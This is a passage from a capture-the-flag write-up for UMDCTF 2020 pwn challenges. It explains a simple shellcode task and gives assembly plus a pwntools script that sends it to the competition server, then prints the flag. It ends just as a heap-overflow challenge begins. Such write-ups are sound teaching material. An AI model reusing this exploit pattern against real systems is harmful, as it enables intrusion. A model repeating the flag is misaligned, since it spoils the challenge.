 ### Analysis

Generally, `rax` is used to storage return value. This challenge is to return the value 7. 

So, we can set `rax` to 7 by assembly language code as following: 

```nasm
xor  rax, rax
mov  al, 0x7
ret  
```

### Solution

```python
context.log_level = 'debug'
context.arch = 'amd64'

p=remote('157.245.88.100', 7778)
sc=asm('xor rax,rax\n mov al,7\nret\n')
p.sendline(sc)

p.interactive()
```

> flag: UMDCTF{R_U_@_Tim3_tR@v3ll3r_OR_Ju$t_R3a11y_Sm@rT}

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/UMDCTF2020/pwn/shellcode1) 



## Jump Not Found (400pt)

### Description

> We are trying to make a hyper jump to Naboo, but our system doesn't know where Naboo is. Can you help us figure out the issue?
>
> `nc 192.241.138.174 9996` 
>
> Author: `WittsEnd2`


### Attachment

[JNF](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/UMDCTF2020/pwn/JNF/JNF)

### Analysis

### Heap overflow
